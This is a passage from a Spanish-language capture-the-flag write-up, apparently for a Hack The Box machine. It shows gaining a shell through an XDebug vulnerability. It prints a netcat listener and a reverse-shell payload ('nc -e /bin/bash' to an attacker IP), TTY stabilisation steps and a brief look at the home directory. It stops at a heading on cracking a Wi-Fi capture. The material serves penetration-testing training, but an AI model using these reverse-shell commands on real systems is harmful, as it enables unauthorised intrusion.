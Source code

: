 1. En la respuesta del **curl** se nos pone *www-data*

El exploit funciona y el comando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.
## Explotacion de vulnerabilidad & Ganando acceso {-}


### Ganando acceso con la vuln XDebug {-}

1. Nos ponemos en escucha con netcat

    ```bash
    nc -nlvp 443
    ```

1. Con el exploit exploit_shell.py lanzamos una reverse shell

    ```php
    system('nc -e /bin/bash 10.10.14.20 443')
    ```

De esta manera, hemos ganado acceso al equipo.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero de filas> columns <numero de columnas>
```

### Investigamos la maquina {-}

```bash
cd /home
#Output
zeus

ls /home/zeus
#Output
airgeddon
```

### Airgeddon.cap crack with Aircrack-ng {-}
